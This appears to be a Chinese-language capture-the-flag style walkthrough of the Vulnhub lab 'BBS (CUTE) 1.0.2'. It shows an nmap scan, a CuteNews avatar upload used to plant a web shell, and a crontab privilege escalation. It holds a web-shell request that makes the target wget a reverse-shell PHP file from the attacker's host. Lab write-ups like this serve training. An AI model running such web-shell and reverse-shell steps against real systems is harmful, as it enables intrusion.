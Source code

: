 ```yaml
---

title: Vulnhub 567 BBS (CUTE)  1.0.2
date: 2020-09-24
---
```


考点：任意文件上传,定时任务

靶机链接：<https://www.vulnhub.com/entry/bbs-cute-102,567/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| BBS (CUTE) | 10.0.2.11 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.11
$ sudo nmap -v -A -p- $rip
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) UTF8(USER) TOP STLS IMPLEMENTATION(Courier Mail Server) PIPELINING USER UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee2 40c8 66d1 b327 71e6 085a f50b 7e28
|_SHA-1: 28a3 acc0 86a7 cd64 8f09 78fa 1792 7032 0ecc b154
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) TOP UTF8(USER) IMPLEMENTATION(Courier Mail Server) PIPELINING USER UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee2 40c8 66d1 b327 71e6 085a f50b 7e28
|_SHA-1: 28a3 acc0 86a7 cd64 8f09 78fa 1792 7032 0ecc b154

```

### WEB测试

#### 端口88

未发现有用信息

#### 端口80

[dirb](https://www.iihack.com/pages/tools/dirb.html)和[dirsearch](https://www.iihack.com/pages/tools/dirsearch.html)都发现了index.php

![](https://static.iihack.com/vulnhub/567/1.PNG)

### 漏洞发现

![](https://static.iihack.com/vulnhub/567/2.PNG)

查看利用脚本，发现CuteNews目录需要手工去除

![](https://static.iihack.com/vulnhub/567/3.PNG)

使用新建的用户`ZOu0fykHPn`登录

## 获得权限

### 靶机测试

![](https://static.iihack.com/vulnhub/567/4.PNG)

头像处是上传的shell

访问<http://10.0.2.11/uploads/avatar_ZOu0fykHPn_ZOu0fykHPn.php>文件存在

![](https://static.iihack.com/vulnhub/567/5.PNG)

下载r444.php

```http
http://10.0.2.11/uploads/avatar_ZOu0fykHPn_ZOu0fykHPn.php?cmd=wget http://10.0.2.15/reverse/r444.php
```

访问<http://10.0.2.11/uploads/r444.php>

反弹shell成功

![](https://static.iihack.com/vulnhub/567/6.PNG)

## 提权

将反弹shell写入crontab

![](https://static.iihack.com/vulnhub/567/7.PNG)

![](https://static.iihack.com/vulnhub/567/8.PNG)
